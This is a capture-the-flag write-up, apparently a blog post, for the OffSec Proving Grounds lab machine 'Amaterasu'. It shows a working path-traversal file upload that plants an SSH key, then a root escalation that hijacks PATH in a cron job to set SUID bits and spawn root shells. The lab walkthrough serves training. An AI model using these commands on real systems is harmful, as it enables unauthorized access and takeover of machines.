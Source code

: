 ```yaml
---
title: "Proving grounds Play: Amaterasu"
layout: post
date: 2023-09-22 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
25022/tcp open  ssh     OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey: 
|   256 68c605e8dcf29a2a789beea1aef6381a (ECDSA)
|_  256 e989ccc21714f3bc6221064a5e7180ce (ED25519)
33414/tcp open  unknown
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/2.2.3 Python/3.9.13
|     Date: Fri, 22 Sep 2023 01:48:00 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Connection: close
40080/tcp open  http    Apache httpd 2.4.53 ((Fedora))
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.53 (Fedora)
|_http-title: My test page
```

## PORT 21: FTP

The FTP service got us nothing.

## Web PORT: 33414

![img](/assets/images/CTF/Proving_Grounds/Amaterasu/web.png)

### Directory Fuzzing

![img](/assets/images/CTF/Proving_Grounds/Amaterasu/dir.png)

Upon directory fuzzing the file `/help` has been discovered and below is the response for the file.

http://192.168.193.249:33414/help

```json
[
  "GET /info : General Info",
  "GET /help : This listing",
  "GET /file-list?dir=/tmp : List of the files",
  "POST /file-upload : Upload files"
]
```

The above are RESTAPI endpoints and it's operations.

### Endpoint: /file-list?dir=/tmp

The endpoint allows the enduser to list the directories in the system. It won't allow users to view file but to list the directories only.

### Endpoint: /file-upload

The endpoint allows the enduser to upload files to the system, by abusing this feature the attacker can upload his/her `id_rsa.pub` file as `authorrized_keys` to the system and later obtain user shell vis SSH login.

## File Upload

Generate SSH key and rename the `id_rsa.pub` file to `authorized_keys.txt`. Use the below curl command to upload the file directly to the `/home/alfredo/.ssh/` folder by specifying the location `/home/alfredo/.ssh/authorized_keys` in the filename.

```sh
curl -L -i -X POST -H "Content-Type: multipart/form-data" -F file="@/home/naveenj/pg-play/Amaterasu/authorized_keys.txt" -F filename="/home/alfredo/.ssh/authorized_keys" http://192.168.193.249:33414/file-upload
```

![img](/assets/images/CTF/Proving_Grounds/Amaterasu/upload.png)

SSH to user alfredo using the port 25022.

![img](/assets/images/CTF/Proving_Grounds/Amaterasu/shell.png)

**Initial Foothold Obtained**

## Privilege Escalation

### Cronjob

```sh
[alfredo@fedora restapi]$ cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed

*/1 * * * * root /usr/local/bin/backup-flask.sh
```

There is a cronjob running as root which executes the `/usr/local/bin/backup-flask.sh` bash script.

### /usr/local/bin/backup-flask.sh

```sh
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *
```

let's check the permission of the bash script, if the current user has write permission then it's easy to obtain root.

But unfortunately only root user has read, write and execute permissions for the script.

```sh
-rwxr-xr-x. 1 root root 106 Mar 28 03:18 /usr/local/bin/backup-flask.sh
```

As shown in the above script on line 4 it executes `tar` binary as root to extract a file, which can abused by create a script named `tar` inside the restapi folder.

Create a bash script with file name as `tar` only with below contents.

```sh
#!/bin/bash

chmod u+s /usr/bin/find
```
Apply executable permissions `chmod +x tar`.

So once the above code executes, we will be able to obtain root by using the SUID bypass exploit for the binary `find`. There are other alternatives are there instead of using binary `find` we can use `/usr/bin/bash` as well.

```sh
#!/bin/bash

cp /bin/bash /home/alfredo/restapi/bash; chmod u+s /home/alfredo/restapi/bash;
```

Once the script is executed as root, it copies `bash` to restapi folder and applies permission to execute the binary as owner in our case that would be the root user and that the SUID bit is set.

After the bash binary is placed in the restapi folder check the file permissions and execute the below to obtain root.

```sh
[alfredo@fedora restapi]$ pwd
/home/alfredo/restapi
[alfredo@fedora restapi]$ ls -al
total 1372
drwxr-xr-x. 3 alfredo alfredo      77 Sep 22 02:26 .
drwx------. 4 alfredo alfredo     127 Mar 28 03:18 ..
-rw-r--r--. 1 alfredo alfredo     198 Mar 28 03:18 app.py
-rwsr-xr-x  1 root    root    1390080 Sep 22 02:31 bash
-rw-r--r--. 1 alfredo alfredo    2509 Mar 28 03:18 main.py
drwxr-xr-x. 2 alfredo alfredo      32 Mar 28 03:18 __pycache__
-rwxr-xr-x  1 alfredo alfredo      92 Sep 22 02:25 tar
[alfredo@fedora restapi]$ ./bash -p
bash-5.1# whoami
root
bash-5.1#
```

Wait for 60 seconds for the cronjob to complete, then use the below command to obtain root.

```sh
/usr/bin/find . -exec /bin/sh -p \; -quit
```

![img](/assets/images/CTF/Proving_Grounds/Amaterasu/root.png)

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).